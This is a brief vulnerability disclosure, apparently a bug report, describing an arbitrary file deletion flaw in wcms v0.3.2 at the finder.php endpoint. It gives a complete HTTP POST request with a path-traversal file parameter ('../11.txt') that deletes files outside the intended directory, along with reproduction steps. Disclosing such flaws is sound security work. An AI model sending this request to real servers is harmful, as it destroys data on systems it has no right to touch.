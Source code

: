#### BUG_AUTHOR:acmglz
# wcms has arbitrary file deletion
## Download address:
https://github.com/vedees/wcms/releases/tag/0.3.2
## Version:v0.3.2
## Tested on: PHP, Apache, MySQL
## Affected Page:
/wcms/wex/finder.php?p=

POST
```
POST /wcms/wex/finder.php?p= HTTP/1.1
Host: bc123.com
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bc123.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bc123.com/wcms/wex/finder.php?p=
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fr79h5nb1s5marnuvmhgi8dmu7
Connection: close

p=&group=1&file%5B%5D=../11.txt&delete=Delete
```



## Proof of vulnerability:

1. Create the 11.txt file in another directory

   

2. Test arbitrary file deletion according to post data





